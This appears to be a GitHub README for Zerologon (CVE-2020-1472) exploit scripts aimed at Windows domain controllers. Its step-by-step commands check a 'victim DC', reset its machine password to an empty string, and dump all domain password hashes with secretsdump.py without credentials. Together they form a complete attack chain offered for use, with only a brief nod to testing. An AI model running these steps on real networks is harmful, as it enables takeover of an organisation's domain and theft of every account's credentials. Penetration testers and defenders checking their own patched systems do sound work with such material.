 # Zerologon
Set of scripts, to test and exploit the zerologon vulnerability (CVE-2020-1472). 

<img src="https://imgur.com/a/8gl8fGm.jpg" alt="banner"/>

***

# What is it?

ZeroLogon is a vulnerability that allows us to exploit a cryptography flaw in Microsoft's Active Directory Netlogon Remote Protocol (MS-NRPC), which allows users to log in to servers using NTLM. 

***

# Previous steps 

Before executing the exploit we must know that we need a different version of impacket, for this we will do the following. 

``> apt remove --purge impacket-scripts python3-impacket``

``> git clone https://github.com/SecureAuthCorp/impacket.git``

``> cd impacket``

``> pip install .``

***

# PoC (Proof Of Concept)

``git clone https://github.com/Nekoox/zerologon.git``

``cd zerologon``

``pip install -r requirements.txt``

## Check if the victim domain controller is vulnerable to zerologon.

``python3 tester.py <DC-NAME> <ip-address>``

In the event that the victim DC is vulnerable, a message will appear saying "Success! DC can be fully compromised by a Zerologon attack." 

Otherwise, that is, the victim DC is not vulnerable because the security hole has been patched, we will get the following message "Attack failed. Target is probably patched." 

***

## Change the password of the vulnerable domain controller to an empty string. 

``python3 empty_pw.py <DC-NAME> <ip-address>``

If the Domain Controller is vulnerable, after running the exploit it should not have any password. 


## Dump hashes of the Domain Controller. 

``> secretsdump.py -just-dc <DC-NAME>\$@<ip-address>``

By executing this, we will be able to see all the hashes of the domain, without any credentials. 

